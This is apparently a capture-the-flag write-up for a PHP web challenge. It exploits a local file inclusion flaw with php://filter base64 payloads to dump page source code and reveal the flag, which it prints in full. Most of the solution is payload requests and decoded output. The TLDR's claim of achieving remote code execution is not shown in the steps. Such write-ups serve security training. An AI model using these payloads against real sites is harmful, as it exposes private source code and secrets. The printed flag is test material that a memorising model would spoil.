

# simplelazy
> Category: Web
> 
> TLDR:
> 
> Exploit LFI vulnerabilities to create RCE attack
> 
> Use PHP wrapper php://filter to read PHP source code 
## Solution
In this challenge, a site is given, namely https://simplelazy.ctf.rawsec.com/. 


Link 1 
```bash
Linux 41e86d6dc4fd 5.15.0-92-generic #102-Ubuntu SMP Wed Jan 10 09:33:48 UTC 2024 x86_64 GNU/Linux
```
Link 2
```
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"
VERSION_ID="12"
VERSION="12 (bookworm)"
VERSION_CODENAME=bookworm
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
Link 3
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)

Fatal error: Uncaught Error: Undefined constant "esdasxasdcessxsadx" in /var/www/html/page3.php:7 Stack trace: #0 /var/www/html/index.php(72): include() #1 {main} thrown in /var/www/html/page3.php on line 7
```
XSS payload seems useless
.PNG)

Now let’s see if we could see the source code of any page by utilizing a wrapper in our payload, specifically php:// wrapper. We’ll use: ```/index.php?page=php://filter/convert.base64-encode/resource=page1```

```bash
PD9waHANCg0KZWNobyAnPHByZSBzdHlsZT0iY29sb3I6ICNmZmY7Ij4nOw0Kc3lzdGVtKCd1bmFtZSAtYScpOw0KZWNobyAnPC9wcmU+JzsNCj8+

<?php

echo '<pre style="color: #fff;">';
system('uname -a');
echo '</pre>';
?>
```

```/index.php?page=php://filter/convert.base64-encode/resource=page2```

```bash
PD9waHANCg0KZWNobyAnPHByZSBzdHlsZT0iY29sb3I6ICNmZmY7Ij4nOw0Kc3lzdGVtKCdjYXQgL2V0Yy9vcy1yZWxlYXNlJyk7DQplY2hvICc8L3ByZT4nOw0KDQoNCj8+

<?php

echo '<pre style="color: #fff;">';
system('cat /etc/os-release');
echo '</pre>';
?>
```

```/index.php?page=php://filter/convert.base64-encode/resource=page3```
```bash
PD9waHAKCmVjaG8gJzxwcmUgc3R5bGU9ImNvbG9yOiAjZmZmOyI+JzsKc3lzdGVtKCdpZCcpOwplY2hvICc8L3ByZT4nOwoKaW5jbHVkZShlc2Rhc3hhc2RjZXNzeHNhZHgucGhwKTsKCj8+Cg==

<?php

echo '<pre style="color: #fff;">';
system('id');
echo '</pre>';

include(esdasxasdcessxsadx.php);

?>

```
```/index.php?page=php://filter/convert.base64-encode/resource=esdasxasdcessxsadx```
```bash
PD9waHAKCi8vUldTQ3tTMU1QTDNfNE5EX0w0Wll9ICRmbGFnLVthc2Rhc2Rhc2RdCgo/Pgo=

<?php

//RWSC{S1MPL3_4ND_L4ZY} $flag-[asdasdasd]

?>
```

## Flag
The flag for this challenge is ```RWSC{S1MPL3_4ND_L4ZY}```
